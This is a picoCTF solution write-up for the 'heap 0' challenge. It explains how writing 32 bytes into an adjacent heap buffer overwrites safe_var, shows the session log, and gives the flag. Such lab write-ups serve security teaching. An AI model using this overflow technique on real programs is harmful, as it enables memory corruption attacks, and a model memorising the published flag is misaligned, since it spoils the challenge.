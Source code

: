 # [heap 0](https://play.picoctf.org/practice/challenge/438)

## Overview

**Points**: 50

**Category**: [Binary Exploitation](../)

## Description

Are overflows just a stack concern?
Download the binary [here](https://artifacts.picoctf.net/c_tethys/30/chall).
Download the source [here](https://artifacts.picoctf.net/c_tethys/30/chall.c).
Connect with the challenge instance here:
`nc tethys.picoctf.net <port>`

## Hints

1. What part of the heap do you have control over and how far is it from the
safe\_var?

## Solution
```c
input_data = malloc(INPUT_DATA_SIZE);
strncpy(input_data, "pico", INPUT_DATA_SIZE);
safe_var = malloc(SAFE_VAR_SIZE);
strncpy(safe_var, "bico", SAFE_VAR_SIZE);
```

After looking at the code, we see that the program stores the user input in a heap, with a certain size. Since the variables are stored right after each other, we can overflow the `input_data` buffer and overwrite the `safe_var` variable, as shown by the image below.

![buffer overflow](./buffer-overflow.png)

After experimenting with different values, we see that we need 32 bytes to overflow the buffer (each variable has a space of 32 bytes).

```sh
1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5fc712bf92b0  ->   aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
+-------------+----------------+
[*]   0x5fc712bf92d0  ->   
+-------------+----------------+

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{my_first_heap_overflow_e4c92a78}
```

## Flag

`picoCTF{my_first_heap_overflow_e4c92a78}`
